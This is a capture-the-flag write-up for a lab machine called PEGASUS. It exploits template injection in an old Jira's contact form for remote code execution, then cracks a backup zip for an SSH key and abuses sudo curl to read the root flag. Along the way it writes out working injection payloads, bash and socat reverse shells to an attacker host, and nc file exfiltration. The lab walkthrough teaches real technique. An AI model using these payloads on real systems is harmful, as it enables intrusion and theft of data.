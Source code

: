 ```yaml
---
layout: post
title: "CTF7E4 - PEGASUS Machine"
categories: CTF7E4
---
```


## Summary
&nbsp;
This machine has an old Jira instance running on port 8080 which has a remote code execution vulnerability in "Contact Administrators" form. When sending an email to Administrators through this form, it's possible to inject java code into Subject and Body message. The privilege escalation required some steps such as finding a backup file, cracking the zip password with private ssh key of user "Harvey" inside, then running curl with root permissions.

&nbsp;

- **OS:** Linux
- **IP:** 10.10.10.33
- **Difficulty:** Medium

## Steps
&nbsp;

In order to hack this machine, we should know what ports are open and we can do that by using a popular tool such as Nmap.

> **→ nmap -sC -sV -oN scan 10.10.10.33**{: style="color: red"}

**-sC** Use default scripts
**-sV** Probe open ports to determine service/version info
**-oN** Save output in nmap format.
&nbsp;

```
Nmap scan report for 10.10.10.33
Host is up (0.028s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 89:53:8b:26:aa:11:32:a0:2b:ac:17:26:74:91:16:f4 (RSA)
|   256 ff:97:ac:ee:c6:ef:9a:60:19:a1:92:c9:d1:7e:99:d5 (ECDSA)
|_  256 32:7b:60:9a:a6:d8:6a:42:46:dd:22:98:f2:6b:43:95 (ED25519)
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-open-proxy: Proxy might be redirecting requests
| http-robots.txt: 6 disallowed entries 
| /sr/ /si/ /charts /secure/ConfigureReport.jspa 
|_/secure/ConfigureReport!default.jspa /secure/attachmentzip/
|_http-server-header: Apache-Coyote/1.1
| http-title: System Dashboard - Pegasus Cyber
|_Requested resource was http://10.10.10.33:8080/secure/Dashboard.jspa
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
&nbsp;
&nbsp;

Browsing to http://10.10.10.33:8080/secure/Dashboard.jspa, on the bottom of the page we can see it's using an outdated version **v6.4.x**

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus1.png){:.images}
&nbsp;

After some quick google searching we can see that there are many PoCs available on how to exploit this version. 

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus2.png){:.images}
&nbsp;

As I mentioned before, the vulnerability exists on "Contact Administrators" form so we are going to abuse this as seen on the following screenshots.

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus3.png){:.images}
&nbsp;

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus4.png){:.images}
&nbsp;

To confirm that there is a Remote Command Execution, we are going to listen on a random port and make a request to our machine.

> **→ nc -lnvp 9000**{: style="color: red"}

And put this payload on the Subject and Body field:
&nbsp;
```java
$i18n.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("curl 10.10.20.2:9000/?spenkk").waitFor()
```

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus5.png){:.images}
&nbsp;

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus6.png){:.images}
&nbsp;

Since we had a connection back to our listener, let's try to get a reverse shell. There are [many ways](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) on how we can get a reverse shell and I will try the most basic one:
> **→ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1**{: style="color: red"}

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus7.png){:.images}
&nbsp;

Even if we don't get a connection back it doesn't mean that it's not vulnerable. There is a binary called Socat which is often used in these cases and it's very stable.
&nbsp;

Attacker machine:
> **→ socat file:`tty`,raw,echo=0 TCP-L:1337**{: style="color: red"}

Payload:
> **→ $i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('socat tcp-connect:10.10.20.2:1337 exec:sh,pty,stderr,setsid,sigint,sane').waitFor()**{: style="color: red"}

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus8.png){:.images}
&nbsp;

We got a reverse shell as user **"jira"**.

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus9.png){:.images}
&nbsp;

We continued our local enumeration and found a backup file on /var/tmp/backup.zip
&nbsp;
To transfer this file to our machine we can use **nc**.
&nbsp;
Attacker machine:
> **→ nc -lp 5555 > backup.zip**{: style="color: red"}

Pegasus Machine:
> **→ nc -w 3 10.10.20.2 5555 < backup.zip**{: style="color: red"}

Backup.zip was password protected but we can crack it using different tools, I prefer using [John](https://github.com/magnumripper/JohnTheRipper), but first we should convert the zip file to a hash format in order for "John" to crack it.

> **→ ssh2john backup.zip >> backup.john**{: style="color: red"}

Then we can finally use John to crack it using a prefered wordlist.

> **→ john backup.john --wordlist=~/tools/SecLists/Passwords/rockyou.txt**{: style="color: red"}

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
999999999        (backup.zip/harvey_key)
1g 0:00:00:00 DONE (2020-02-03 11:13) 33.33g/s 546133p/s 546133c/s 546133C/s 123456..christal
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
&nbsp;

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus10.png){:.images}
&nbsp;

> **→ unzip backup.zip**{: style="color: red"}

```
Archive:  backup.zip
[backup.zip] harvey_key password: 999999999
  inflating: harvey_key 
```

> **→ cat harvey_key**{: style="color: red"}


```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAsvqT8DA9wf3/303V8fk1n3ZLHIpwMTiG91JlORWNSLgz4ykX
..[SNIP]..
O8cJQ/XNm6cOF/hml+Qp4YDeskmAkQqhjkwwYIgw2qD6+lHlxR/Gdw==
-----END RSA PRIVATE KEY-----
```

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus11.png){:.images}
&nbsp;

We logged in as user Harvey and started enumeration for local privilege escalation.

> **→ harvey@pegasus:~$ id**{: style="color: red"}

uid=1002(harvey) gid=1002(harvey) groups=1002(harvey)

> **→ harvey@pegasus:~$ sudo -l**{: style="color: red"}

```
Matching Defaults entries for harvey on pegasus:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User harvey may run the following commands on pegasus:
    (ALL) NOPASSWD: /usr/bin/curl
```
&nbsp;

From the command above, we can see that Harvey can use curl with root permissions without entering a password and without being into sudo group. So lets try to send the /root/flag.txt to our machine with a post request.

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus12.png){:.images}
&nbsp;

Python default http server doesn't accept POST requests. We can modify it or find an already modified version on github but since the file is stored on the local machine that we're already in, then we can use **file://** protocol to read it.

> **→ harvey@pegasus:~$ sudo curl file:///root/flag.txt**{: style="color: red"}

XOR{78a9776eba860f614e643e54e0815ee3b5aa8906}

&nbsp;
![pegasus]({{ site.baseurl }}/assets/images/ctf7e4/machines/pegasus13.png){:.images}
&nbsp;


&nbsp;
I hope you had fun solving this machine and learning something new.